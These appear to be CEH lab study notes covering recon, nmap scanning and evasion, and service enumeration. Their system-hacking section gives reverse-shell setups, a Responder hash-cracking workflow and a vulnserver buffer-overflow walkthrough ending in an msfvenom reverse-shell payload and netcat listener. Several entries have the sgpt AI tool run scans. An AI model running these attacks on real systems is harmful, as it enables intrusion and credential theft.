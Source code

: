 # CEH-practice-notes
# Reconnasiance/Footprinting
<details>
  <summary>To find the subdomain</summary>

* nmap to find subdomain
```console
:~$ nmap -p 53 --script dns-brute <domain>
``` 
* google
```console
  :~$ site:example.com -inurl:www
```
* sublist3r
```console
  :~$ sublist3r -d example.com -o sublist3r_subs.txt
```
* some research websites
```console
  :~$ netcraft
      DNS dumpster
      pentest-tools.com
      SHODAN
```
* Collects open-source intelligence (OSINT) about domains, IPs, hosts, and people
```console
  :~$ recon-ng
  ```  
</details>

<details>

  <summary>social media recon by using sherlock</summary>

* sherlock
```console
:~$ sherlock "user name"
```
</details>

<details>

 <summary>Whois lookup</summary>

 * domaintools 
 (gives info regard a owner ph no and email)
 ```console
:~$ https://whois.domaintools.com
```

* nslookup(DNS lookup) <#windows>
```console
:~$nslookup
set type = a
( a >> configures nslookup to query for the IP address of a given domain.)
(shows non authorative result but we need authorative name so)

set type=cname
cnmae >>  lookup is done directly against the domain's authoritative name server 

set type=a
and get the name server ip

```
* nslookup website
```console
:~$ http://www.kloth.net/services/nslookup.php
```
</details>

<details>

 <summary>to trace a email</summary>

* Email tracker pro
```console
:~$ Install email tracker pro from the directory of a lab 
    and copy down the email header you want to track
```

</details>


<details>

 <summary>network footprinting</summary>

* tracert<#windows> traceroute<#linux>(helps in mapping the nw hosts)
```console
:~$ tracert www.target.com
tracert /? (help)
tracert -h 5 www.target.com
(-h > number of hopes)
```
* traceroute(linux)
```console
:~$ traceroute www.targetdomain.com
(to check ip)whois [ip]
```
</details>

<details>
<summary>recon-ng</summary>

* recon-ng 
```console
:~$recon-ng
   help
   marketplace install all

  (then to create workspace)
  workspace create CEH
  wrokspace list
  ```
  * To add the domain to workspaces
  ```console
  :~$ (help  for options)
  db insert domains(take you to the workspace interface)
  1.certifiedhacker.com
  2.hit enter
  show domains
  ```
* To search and load modules
```console
:~$ modules load brute (to get host related to target domain)
  modules load (desired modules for brute)
  run
  back

  modules load reverse_resolve
  modules load(desired module)
  show hosts(shows all hosts which is harvested)
```
* then to reporting
```console
:~$ modules load reporting
  modules load reporting/html
  options list(list options)
  options set FILENAME
              CUSTOMERNAME
              CREATOR
```
* then to get the contact of the domain
```console
:~$ modules load whois_pocs
  command info(to see a module interface,to set data)
  options set SOURCE facebook.com
  run

```
* to extract subdomains and IP
```console
:~$ module load recon/domains-hosts/hackertarget
options list
options set SOURCE certifiedhacker.com
run
```
</details>

<details>
<summary>recon by AI</summary>

* reconniassance with AI
```console
:~$sgpt --chat recon --shell "t organization. To do so, run sgpt --chat footprint --shell "Use theHarvester to gather email accounts associated with 'microsoft.com', limiting results to 200, and leveraging 'baidu' as a data source"
```
</details>

<details>
<summary>BillCipher</summary>

* Use this tool to get passive info of many details of org
```console
:~$sudo apt update && sudo apt install ruby python python-pip python3 python3-pip
sudo apt install httrack whatweb
git clone https://github.com/GitHackTools/BillCipher
cd BillCipher
pip install -r requirements.txt
pip3 install -r requirements.txt
python3 billcipher.py
```
</details>







# Scanning Networks
<details>
<summary>Host discovery</summary>

* Host discovery by
ARP ping scan
UDP ping scan
ICMP ping scan (ICMP ECHO ping, ICMP timestamp, ping ICMP, and address mask ping)
TCP ping scan (TCP SYN ping and TCP ACK ping)
IP protocol ping scan

```console
:~$ nmap -sn -PR [target ip]

-sn>>no port scan
-PR>>arp ping scan
```
* UDP ping scan
```console
:~$ nmap -sn -PU [target IP]
-PU>>UDP scan
```
* ICMP echo ping scan
```console
:~$ nmap -sn -PE [IP address]
PE>>ICMP echo ping scan
```
* ICMP ping sweep 
``` console
:~$ nmap -sn -PE [Range of IP address]
```
* ICMP timestamp ping scan
```console
:~$ nmap -sn -PP [IP address]
-PP>>timestamp ping scan
```
* Other scanning technique
```console
:~$nmap -sn -PM [ip address]
PM>>ICMP address mask ping scan

#########################################
nmap -sn -PS [target ip]
PS>>TCP SYN Ping Scan
#########################################
nmap -sn -PA [target ip]
-PA>>TCP ACK Ping Scan
########################################
nmap -sn -PO [ip address]
-PO>>IP Protocol Ping Scan(sends every protocols and send back the response)
```
</details>
<details>

<summary>Port and service discovery</summary>

* here using zenmap
```console
:~$ nmap -sT -v [target ip]
-sT>>TCP connect/full open scan
-v>>verbose
```
* To scan firewall enabled machine(bypass firewall)
```console
:~$nmap -sS -v [ip address]
-sS>>stealth scan
```
* xmass scan (sends urg psh fin)
```console
:~$nmap -sX -v [ip address]
-sX>>xmas scan
```
* maimon scan (ack+fin)
```console
:~$ nmap -sM -v [ip address]
-sM>>maimon scan
```
* by ACk flag
```console
:~$ nmap -sA -v [ip address]
-sA>>ack probe scan
```
* UDP scan (firewall is off)
```console
:~$nmap -sU -v [ip address]
-sU>>UDP scan
```
* other port and application scanning meathods
```console
:~$nmap -sI -v [target IP address]
-sI>>IDLE/IPID Header Scan
#############################
nmap -sY -v [target IP address]
-sY>>SCTP init scan
#############################
nmap -sZ -v [target IP address]
-sZ>>SCTP COOKIE ECHO Scan
```
</details>
<details>
<summary>Version scan/agressive scan</summary>

* version
```console
:~$nmap -sV [ip address]
-sV>>version scan
##############################
nmap -A 10.10.1.* (* do all subnet scan)
-A>>agressive scan
(performs -sV -O -sC(script scanning) --traceroute)
```
</details>
<details>
<summary>OS discovery</summary>

* os discovery using nmap script engine(NSE)>>using -O -A NSE
```console
:~$nmap --script smb-os-discovery.nse [ip address]
```
</details>

<details>
<summary>Scan beyond the IDS & firewll</summary>

* By fragmenting the packet

```console
:~$ nmap -f [ip address]
-f>>fragment

```
* Source port manipulation
```console
:~$ nmap -g 80 [ip address]
-g ,--source-port >> source port manipulation
```
* MTU(maximum transmission unit)
```console
:~$ nmap -mtu 8 [ip adress]
-mtu>>maximum transmision unit(which is send smaller data packets 8 bytes)
```
* Decoy(random ip adress)
```console
:~$ nmap -D RND:10 [ip address]
-D>>decoy
RND>>random ip count
```
* MAC spoofing
```console
:~$ nmap -sT -Pn --spoof-mac 0 [ip address]
-sT>>TCP full scan
-Pn>>no host discovery
--spoof-mac 0>>gives legitimate mac address in the network
```
</details>
<details>
<summary>Scan a target network using metasploit</summary>
```console
:~$ open the msfconsole
nmap -sP -sS -A -oX test [ip/24](subnetmask)
-oX>>output to xmp file names test
```

* by metasploit madules
```console
:~$ search port scan (shows all module related to port scan)
use auxilary/scanner/portscan/syn
show options and set values
run
###############################
same scanned for TCP (same module with tcp at last)
set target ip(RHOSTS)

#found 445 open port so scanning smb version
use auxilary/scanner/smb/smb_version 
set RHOSTS [ip range]
threads 11

```
</details>
<details>
<summary>Scanning network using sgpt</summary>

```console
:~$ sgpt --chat scan --shell "prompt (by using HPING3")
```

</details>





# Enumeration
<details>
<summary>Netbios enumeration</summary>

* nbtstat

```console
:~$ nbtstat -a [ip address]
-a>>displays the NetBIOS name table of a remote computer.



nbtstat -c 
-c>> displays the cashe of netbios



net use
>>shows active connection
```

</details>

<details>

<summary>SNMP enumeration using tools</summary>

* SnmpWalk]
```console
:~$ snmpwalk -v1 -c public <Ip address>
-v1>>version of snmp
-c>>community string(public/private)

#for v2 snmp

snmpwalk -v2c -c public <ipaddress>
-v2c>>version
```
</details>

<details>
<summary>LDAP enumaration</summary>

* By using AD explorer
```console
:~$open exe file in explorer
```
</details>
<details>
<summary>NFS enumeration</summary>

* by using nmap
```console
:~$ nmap -p 2049 [ip addr] 
-p>> to specify port

to check target is NFS is enabled or not
(to enable it in target device use server manager)


than open super enum tool 
create a file included target ip as Target.txt
#echo "target ip" >> target.txt
 next

./superenum

(If you get an error running the ./superenum script, execute chmod +x superenum command, then repeat Step#13.)
```

* by RPCScan
```console
:~$ cd RPCScan
python3 rpc-scan.py [Target IP address] --rpc
--rpc>> lists the RPC (portmapper)
```
</details>
<details>
<summary>DNS enumeration using zone transfer</summary>

* By using dig command
```console
:~$ dig ns [target domain]
ns>>shows the name server
```
* To check it has zone transfer or not
```console
:~$ dig @ [name server] [target domain] axfr
axfr >> retrives zone transfer info
```
* By using nslookup
```console
:~$ nslookup
set querytype=soa

soa>>sets the query type to SOA (Start of Authority) record to retrieve administrative information about the DNS zone of the target domain certifiedhacker.com.

then in interactive mode

ls -d [name server]
## this command checks is domain supoort zone tarnsfer or not
```
</details>

<details>
<summary>SMTP enumeration</summary>

* Usimg nmap
```console
:~$ nmap -p 25 --script=smtp-enum-users [ip]
##shows all the mail users
## to check the script >> nmap --script-help 'http-*' | less


nmap -p 25 --script=smtp-open-relay [target IP]    

```
</details>

# Vulnerability Analysis
<details>

<summary>Research on CWE (common weakness enumeration)</summary>

* Research CWE website
```console
:~$ cwe.mitre.org
aslo can check access content >> cwe list
```
</details>
<details>
<summary>OpenVAS</summary>

* Vulnerability analysis using OpenVAS
```console
:~$ to open OPENVAS 
parrot cmd >> 
docker run -d -p 443:443 --name openvas mikesplain/openvas
then http://127.0.0.1
passward:admin admin
```
</details>
<details>
<summary>Using AI </summary>

* Perform Vulnerability Analysis using AI
```console
:~$ sgpt --chat nikto --shell "Scan the URL https://www.certifiedhacker.com to identify potential vulnerabilities with nikto"


 sgpt --chat vuln --shell "Perform vulnerability scan on target url http://www.moviescope.com with Nmap with port 80"

 ```

 ## by using skipfish (website)
 ```console
 :~$ sgpt --chat vuln --shell "Perform a vulnerability scan on target url http://testphp.vulnweb.com with skipfish" 
 open the saved html file with browser
 ```

</details>

# System Hacking
<details>

<summary>Crack the password using responder</summary>

* cmd to run responder
```console
~$:sudo responder -I eth0
-I>>interface

in target system run bar \\CEH-Tools
and in parrot copy the capture hash availed in responder
and in another sudo terminal
pluma hash.txt n copy it here
```
//then decript using john
```console
~$:john hash.txt
```
</details>
<details>
<summary>Access remote system using Reverse shell generator</summary>

* Enable reverse shell
```console
~$:docker run -d -p 80:80 reverse_shell_generator
```
* firefox >> http://localhost
```console
~$:In the IP field, type [attacker sys ip] as listener IP and in the Port field, type 4444 as listener port.

and copy the msfvenom cmd in the same window and paste it in cmd (windows meterpreter reverse TCP)

We will start a listener using Reverse Shell Generator, to do so, switch to the browser window and select msfconsole as Type from the drop-down under Listener.
and copy the code >> paste it in cmd >> listner will start

In attacker system go to file (ctrl L) and type smb://10.10.1.11 to get win 11 files 
Navigate to CEHv13 Module 06 System Hacking and paste the copied reverse.exe file.

in victm machine navigate to CEH tool and copy the reverse.exe and copy it to desktop
double click it (exe)

```

* After session created
```console
~$: getuid (to get the user details)
```

* Now by powershell script
```console
~$: in firefox reverse shell page select PowerShell IEX and change port to 444 and copy the code

and in new su cmd 
pluma shell.ps1 and copy the code and save

and now we have to create a hoaxshell listner for that
back to reverseshell browser window and input 444 as port and select hoaxshell
copy paste it in cmd and enter


now copy the shell file wee created and paste it in wind 11 cehtool folder by smb://10.10.1.11
in winn 11 navigate to this file and paste it in win 11 desktop
```

* open powershell as a admin
then type
```console
~$: cd C:\Users\Admin\Desktop
and run .\"filename"
>>to run a file in victim machine
```
</details>
<details>
<summary>Perform Buffer Overflow Attack to Gain Access to a Remote System</summary>

* download vulnserver from module6 file and run
* and also install immunity debugger and run it as admin
```console
~$:click file in the menu bar
and click attach n attach the vulnserver
then run it (play button at top)
```
* shift to parrot
```console
~$:nc -nv 10.10.1.11 9999
-n >> dont try to resolve hostname with dns, use the ip exactly as given

type HELP
```
* Generate spike template and performing spiking
//to create a spike template on STATS function
```console

~$: pluma stats.spk and type the following cmd

s_readline();

s_string("STATS ");

s_string_variable("0");
```
* to send the package to vulberable server
```console
~$: generic_send_tcp 10.10.1.11 9999 stats.spk 0 0
here STATS fn is not vulnerable to bufferoverflow
```
* so we will perform TRUN function
```console
~$:pluma trun.spk
and type
s_readline();

s_string("TRUN ");

s_string_variable("0");
```
* run
```console
~$: generic_send_tcp 10.10.1.11 9999 trun.spk 0 0
```
* Now performing FUZZING
```console
~$:navigate to ceh tools and buffer over flow file copy script file and paste it in desktop
now perform python script to perform fuzzing

navigate to cd /home/attacker/Desktop/Scripts/
```
execute
```console
~$:chmod +x fuzz.py
./fuzz.py
```
* pattern create by ruby tool (in a same script file)
```console
~$:in linux cmd >> /usr/share/metasploit-framework/tools/exploit/pattern_crteate.rb -l 1040
-l>>leangth of a byte size

>>it creates some random piece of bytes
copy the characters
>>
paste it in
 pluma findoff.py (script file)
>>in bw offset ""

chmod +x findoff.py
./findoff.py
and open immunity debugger and notedown the EIP (offset value)
```
then
```console
~$: /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 10400 -q (offset value)
-q>>offset value
then close the cmd window
resrart the immunity devbugger and vuln server
```
then (in script file)
```console
~$: chmod +x overwrite.py
./overwrite.py
>> to overwrite EIP
```
* by bad chars
```console
~$: chmod +x badchars.py (in script folder)
./badchars.py

>> in immunity debugger click on ESP and follow in dump option
```
* Now we have to identify the right module of the vulnerable server (mona.py)
```console
~$: navigate to E:\CEH-Tools\CEHv13 Module 06 System Hacking\Buffer Overflow Tools\Scripts, copy the mona.py script, and paste it in the location in windows 11 C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
```
nxt open immunity debugger
and type !mona modules in txt field of immunity debugger
observe that essfunc.dll have no memory protection

```console
~$: in unix cmd 
python3 /home/attacker/converter.py
Enter the assembly code here : prompt appears; type JMP ESP and press Enter.

here ffe4

In the Immunity Debugger window, type !mona find -s "\xff\xe4" -m essfunc.dll and press Enter in the text field present at the bottom of the window.

the address of vulnerable module you will found in first result


 Immunity Debugger window, click the Go to address in Disassembler icon (the arrow towards right)
in pop enter the address of vulnerable module (625011af)
run debugger

and in script file
chmod +x jump.py
./jump.py
>> which over right the EIP
```
* then to generate a shell code
```console
~$: msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b "\x00"

>>Here, -p: payload, local IP address: 10.10.1.13, listening port: 4444, -f: filetype, -a: architecture, -b: bad character.

copy the granted shellcode
and paste it in
pluma shellcode.py
add b in every line to convert string to bytes
```
then before running the command we have to create a listner by netcat
```console
~$: nc -nvlp 4444
and in script folder path
chmod +x shellcode.py
./shellcode.py
```